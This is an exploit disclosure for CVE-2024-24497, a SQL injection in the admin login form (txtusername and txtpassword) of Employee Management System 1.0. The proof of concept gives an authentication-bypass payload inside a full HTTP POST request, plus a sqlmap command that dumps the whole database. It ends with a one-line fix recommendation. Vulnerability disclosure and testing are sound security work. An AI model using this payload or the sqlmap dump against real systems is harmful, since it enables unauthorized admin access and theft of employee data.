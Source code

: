 # Exploit Title: Employee Management System 1.0 - `txtusername` and `txtpassword` SQL Injection (Admin Login)
# Date: 2 Feb 2024
# Exploit Author: Yevhenii Butenko
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/16999/employee-management-system.html
# Version: 1.0
# Tested on: Debian
# CVE : CVE-2024-24497

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /employee_akpoly/Admin/login.php

> Two parameters `txtusername` and `txtpassword` within admin login mechanism are vulnerable to SQL Injection.

![txtusername](https://github.com/0xQRx/VunerabilityResearch/blob/master/2024/img/admin_login_txtusername_sqli.png?raw=true)
![txtpassword](https://github.com/0xQRx/VunerabilityResearch/blob/master/2024/img/admin_login_txtpassword_sqli.png?raw=true)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### Manual Exploitation

The payload `' and 1=1-- -` can be used to bypass authentication within admin login page.

```
POST /employee_akpoly/Admin/login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_akpoly/Admin/login.php
Cookie: PHPSESSID=lcb84k6drd2tepn90ehe7p9n20
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

txtusername=admin' and 1=1-- -&txtpassword=password&btnlogin=
```

### SQLMap

Save the following request to `admin_login.txt`:

```
POST /employee_akpoly/Admin/login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_akpoly/Admin/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

txtusername=admin&txtpassword=password&btnlogin=
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r admin_login.txt --level 5 --risk 3 --batch --dbms MYSQL --dump
```

## Recommendations

When using this Employee Management System, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.